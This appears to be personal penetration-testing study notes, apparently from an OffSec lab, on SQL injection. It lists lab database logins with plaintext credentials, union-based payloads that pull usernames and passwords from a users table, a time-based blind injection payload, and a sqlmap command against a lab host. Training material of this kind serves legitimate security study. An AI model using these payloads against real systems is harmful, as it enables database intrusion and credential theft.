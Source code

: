 # SQL Entry point
- mysql ``` mysql -u root -p'root' -h 192.168.186.16 -P 3306```
- Interesting info
    ``` database(), user(), @@version ```

- mssql ``` impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth ```
    
    Get tables: ``` select * from {datatable}.information_schema.tables; ```

    ![alt text](image.png)

    example: ```table = offsec.dbo.users```

# Manual SQL exploit

## Union based payload
``` %' UNION SELECT database(), user(), @@version, null, null -- // ```

``` ' UNION SELECT null, username, password, description, null FROM users -- // ```

- Requires same number of columns & Usually first column union will be ignore (ID column)

## Blind SQL
- boolean/time-based checking

``` ' AND IF (1=1, sleep(3),'false') -- // ```
- test if something is exist : yes = do sleep 3 seconds

# SQL Shellcode excution
## Manual shell
![alt text](image-1.png)


## Automated 
- BANNED
- mysql
    ``` sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user ```